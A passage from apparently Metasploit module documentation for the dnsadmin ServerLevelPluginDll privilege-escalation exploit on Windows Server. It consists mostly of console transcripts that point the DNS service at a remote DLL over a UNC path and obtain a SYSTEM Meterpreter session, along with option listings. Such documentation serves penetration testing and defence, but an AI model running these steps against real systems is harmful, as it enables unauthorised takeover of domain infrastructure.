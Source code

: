 Once the DLL has been generated, one can proceed with the actual exploit:
```
msf exploit(windows/local/dnsadmin_serverlevelplugindll) > set MAKEDLL false
MAKEDLL => false
msf exploit(windows/local/dnsadmin_serverlevelplugindll) > set DLLPATH \\\\172.17.168.195\\test
DLLPATH => \\172.17.168.195\test
msf exploit(windows/local/dnsadmin_serverlevelplugindll) > set DLLNAME mp4.dll
DLLNAME => mp4.dll
msf exploit(windows/local/dnsadmin_serverlevelplugindll) > exploit

[*] Checking service state...
[*] Using user-provided UNC path.
[!] Entering danger section...
[*] Modifying ServerLevelPluginDll to point to \\172.17.168.195\test\mp4.dll...
[+] Registry property serverlevelplugindll successfully reset.
[*] Restarting the DNS service...
[*] Started bind TCP handler against 172.17.169.123:6688
[*] Sending stage (200262 bytes) to 172.17.169.123
[*] Meterpreter session 4 opened (0.0.0.0:0 -> 172.17.169.123:6688) at 2020-09-09 15:06:33 -0500

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : WIN-M5JU6L5RA9L
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : RAPID7
Logged On Users : 12
Meterpreter     : x64/windows
meterpreter > 
```

### Windows Server 2019 Standard x64, just creating DLL
```
msf exploit(multi/handler) > use exploit/windows/local/dnsadmin_serverlevelplugindll 
[*] Using configured payload windows/x64/meterpreter/bind_tcp
msf exploit(windows/local/dnsadmin_serverlevelplugindll) > set SESSION 3 
SESSION => 3
msf exploit(windows/local/dnsadmin_serverlevelplugindll) > set PAYLOAD windows/x64/meterpreter/bind_tcp
PAYLOAD => windows/x64/meterpreter/bind_tcp
msf exploit(windows/local/dnsadmin_serverlevelplugindll) > set LPORT 6688
LPORT => 6688
msf exploit(windows/local/dnsadmin_serverlevelplugindll) > set DLLNAME mp4.dll
DLLNAME => mp4.dll
msf exploit(windows/local/dnsadmin_serverlevelplugindll) > set MAKEDLL true
MAKEDLL => true
msf exploit(windows/local/dnsadmin_serverlevelplugindll) > show options

Module options (exploit/windows/local/dnsadmin_serverlevelplugindll):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   AVTIMEOUT  60               yes       Time to wait for AV to potentially notice the DLL file we dropped, in seconds.
   DLLNAME    mp4.dll          yes       DLL name (default: msf.dll)
   DLLPATH    %TEMP%           yes       Path to DLL. Can be a UNC path. (default: %TEMP%)
   MAKEDLL    true             yes       Just create the DLL, do not exploit.
   SESSION    3                yes       The session to run this module on.


Payload options (windows/x64/meterpreter/bind_tcp):

```